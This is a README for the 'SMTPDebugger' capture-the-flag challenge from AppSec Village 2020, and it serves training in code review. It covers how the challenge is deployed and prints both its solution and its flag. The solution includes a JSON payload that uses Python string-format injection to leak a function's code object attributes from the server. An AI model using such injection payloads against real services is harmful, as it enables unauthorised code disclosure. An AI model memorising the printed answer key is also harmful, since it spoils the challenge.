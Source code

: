 # SMTPDebugger
**[AppSec Village CTF Task Fight 2020]** SMTPDebugger

![Challenge Description](resources/img/description.png)
_________________________________________________________

### Challenge Storyline
a Company created a Debugger APP for SMTP.  
The mission is to get the flag by reviewing the vulnerable part of the application and calling the function **get_flag**.

### Challenge Design
The challenge components are:  
* load-balancer (Nginx Load Balancer)  
* challenge (Socat - Forked Python Process)  

![Challenge Diagram](resources/img/diagram.png)

### Challenge Purpose
* Code Review  
* Learn how dangerous python string formats are  
* Learn how to recreate python code remotely using code objects  

### Challenge Deployment
1) Deploy the app: docker-compose up --build -d
2) For Scaling: docker-compose scale challenge=3

### Challenge Solution
1) Execute solution.py (tested with python3)
   ```bash
   python solution.py -s {HOST} -p {PORT}
   ```
   * Example: `python solution.py -s localhost.realgame.co.il -p 3780`
2) You got the flag: **CTF{F0rmat_plus_C0d3_Obj3ct_Equ4l5_Flag}**

The exploit send this JSON to the server:  
```javascript
{"from_addr": "from@addr.com", "to_addrs": "to@addr.com", "subject": "subject", "message": "co_argcount={email.get_flag.__code__.co_argcount};co_cellvars={email.get_flag.__code__.co_cellvars};co_code={email.get_flag.__code__.co_code};co_consts={email.get_flag.__code__.co_consts};co_filename='{email.get_flag.__code__.co_filename}';co_firstlineno={email.get_flag.__code__.co_firstlineno};co_flags={email.get_flag.__code__.co_flags};co_freevars={email.get_flag.__code__.co_freevars};co_kwonlyargcount={email.get_flag.__code__.co_kwonlyargcount};co_lnotab={email.get_flag.__code__.co_lnotab};co_name='{email.get_flag.__code__.co_name}';co_names={email.get_flag.__code__.co_names};co_nlocals={email.get_flag.__code__.co_nlocals};co_stacksize={email.get_flag.__code__.co_stacksize};co_varnames={email.get_flag.__code__.co_varnames};"}
```
In response it will get a the whole SMTP message,  
The message body will contain all the arguments of the code object...  
With those arguments it will create code object and replace the code of the current **get_flag** function.  

### Notes
Don't forget to upload **SMTPDebugger.py** to CTFd, it's the same as challenge but without the flag...  
